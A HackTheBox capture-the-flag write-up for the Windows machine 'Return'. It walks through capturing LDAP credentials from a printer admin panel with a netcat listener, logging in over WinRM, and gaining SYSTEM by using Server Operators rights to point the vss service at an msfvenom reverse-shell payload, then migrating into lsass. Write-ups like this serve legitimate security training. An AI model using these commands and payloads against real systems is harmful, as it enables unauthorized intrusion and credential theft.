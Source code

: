 # CTF Penetration Testing

## Platform: HackTheBox

### Machine: [Return](https://www.hackthebox.com/machines/Return)

<img src="https://labs.hackthebox.com/storage/avatars/defa149ea7e259a4709a03a5825e970d.png" alt="Return Machine Logo" width="150"/>

- Machine type: <img src="https://hackmyvm.eu/img/windows.png" alt="Windows" width="17"/> Windows
- Machine difficulty: 🟩 Easy (3.0)

> **Return** is an easy difficulty Windows machine featuring a network printer administration panel that stores LDAP credentials. These credentials can be captured by inputting a malicious LDAP server which allows obtaining foothold on the server through the WinRM service. User found to be part of a privilege group which further exploited to gain system access.

#### Skills Learned

- **Network Printer Abuse**
- **Server Operators Group Abuse**

#### Tools Used

Linux:
- `nmap`
- `whatweb`
- `burpsuite`
- `msfvenom`
- `msfconsole`
- `netexec`
- `evil-winrm`
- `net.exe`
- `sc.exe`

#### Machine Writeup

```
┌──(nabla㉿kali)-[~]
└─$ ifconfig tun0

tun0: flags=4305<UP,POINTOPOINT,RUNNING,NOARP,MULTICAST>  mtu 1500
        inet 10.10.14.144  netmask 255.255.254.0  destination 10.10.14.144

[SNIP]
```

```
┌──(nabla㉿kali)-[~]
└─$ echo -e '10.129.95.241\treturn.htb' | sudo tee -a /etc/hosts

10.129.95.241	return.htb
```

```
┌──(nabla㉿kali)-[~]
└─$ sudo nmap -Pn -sSV -p- return.htb -T5 --min-rate=10000

[SNIP]

PORT      STATE SERVICE       VERSION
53/tcp    open  domain?
80/tcp    open  http          Microsoft IIS httpd 10.0
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-06-30 16:06:36Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: return.local0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: return.local0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
9389/tcp  open  mc-nmf        .NET Message Framing
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49671/tcp open  msrpc         Microsoft Windows RPC
49674/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49675/tcp open  msrpc         Microsoft Windows RPC
49678/tcp open  msrpc         Microsoft Windows RPC
49681/tcp open  msrpc         Microsoft Windows RPC
49697/tcp open  msrpc         Microsoft Windows RPC
54394/tcp open  msrpc         Microsoft Windows RPC
```

```
┌──(nabla㉿kali)-[~]
└─$ whatweb http://return.htb

http://return.htb [200 OK] Country[RESERVED][ZZ], HTML5, HTTPServer[Microsoft-IIS/10.0], IP[10.129.95.241], Microsoft-IIS[10.0], PHP[7.4.13], Script, Title[HTB Printer Admin Panel], X-Powered-By[PHP/7.4.13]
```

![Firefox - Return Homepage](./assets/screenshots/hackthebox_return_01.png)

**Network Printer Abuse**

![Firefox - Settings Page](./assets/screenshots/hackthebox_return_02.png)

```
┌──(nabla㉿kali)-[~]
└─$ sudo nc -lvnp 389

listening on [any] 389 ...

[CONTINUE]
```

![Burp Suite - POST Settings](./assets/screenshots/hackthebox_return_03.png)

```
[CONTINUE]

connect to [10.10.14.144] from (UNKNOWN) [10.129.95.241] 56337
0*`%return\svc-printer�
                       1edFg43012!!
```

```
┌──(nabla㉿kali)-[~]
└─$ netexec smb return.htb -u 'svc-printer' -p '1edFg43012!!'

SMB         10.129.95.241   445    PRINTER          [*] Windows 10 / Server 2019 Build 17763 x64 (name:PRINTER) (domain:return.local) (signing:True) (SMBv1:False)
SMB         10.129.95.241   445    PRINTER          [+] return.local\svc-printer:1edFg43012!!
```

```
┌──(nabla㉿kali)-[~]
└─$ evil-winrm -i return.htb -u 'svc-printer' -p '1edFg43012!!'

[SNIP]

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\svc-printer\Documents>
```

```
*Evil-WinRM* PS C:\Users\svc-printer\Documents> type C:\Users\svc-printer\Desktop\user.txt

a200e*************************** 🚩
```

**Server Operators Group Abuse**

```
*Evil-WinRM* PS C:\Users\svc-printer\Documents> net user svc-printer

[SNIP]

Local Group Memberships      *Print Operators      *Remote Management Use
                             *Server Operators
Global Group memberships     *Domain Users
```

```
*Evil-WinRM* PS C:\Users\svc-printer\Documents> 
```

```
┌──(nabla㉿kali)-[~]
└─$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.144 LPORT=1337 -f exe > revsh.exe

[SNIP]

Payload size: 354 bytes
Final size of exe file: 73802 bytes
```

```
┌──(nabla㉿kali)-[~]
└─$ msfconsole -q -x "use exploit/multi/handler; set PAYLOAD windows/meterpreter/reverse_tcp; set LHOST 10.10.14.144; set LPORT 1337; run"

[SNIP]

[*] Started reverse TCP handler on 10.10.14.144:1337

[CONTINUE]
```

```
*Evil-WinRM* PS C:\Users\svc-printer\Documents> upload revsh.exe

[SNIP]

Info: Uploading /home/nvbla/revsh.exe to C:\Users\svc-printer\Documents\revsh.exe
```

```
*Evil-WinRM* PS C:\Users\svc-printer\Documents> sc.exe config vss binPath=C:\Users\svc-printer\Documents\revsh.exe

[SC] ChangeServiceConfig SUCCESS
```

```
*Evil-WinRM* PS C:\Users\svc-printer\Documents> sc.exe stop vss
```

```
*Evil-WinRM* PS C:\Users\svc-printer\Documents> sc.exe start vss
```

```
[CONTINUE]

[*] Sending stage (177734 bytes) to 10.129.95.241
[*] Meterpreter session 1 opened (10.10.14.144:1337 -> 10.129.95.241:57906) at 2025-06-30 11:38:14 -0500

(Meterpreter 1)(C:\Windows\system32) >
```

```
(Meterpreter 1)(C:\Windows\system32) > getuid

Server username: NT AUTHORITY\SYSTEM
```

```
(Meterpreter 1)(C:\Windows\system32) > migrate -N lsass.exe

[*] Migrating from 4744 to 648...
[*] Migration completed successfully.
```

```
C:\Windows\system32> type C:\\Users\\Administrator\\Desktop\\root.txt

f7d67*************************** 🚩
```

<img src="https://hackmyvm.eu/img/correctflag.png" alt="Machine Hacked!" width="150"/>

---
---
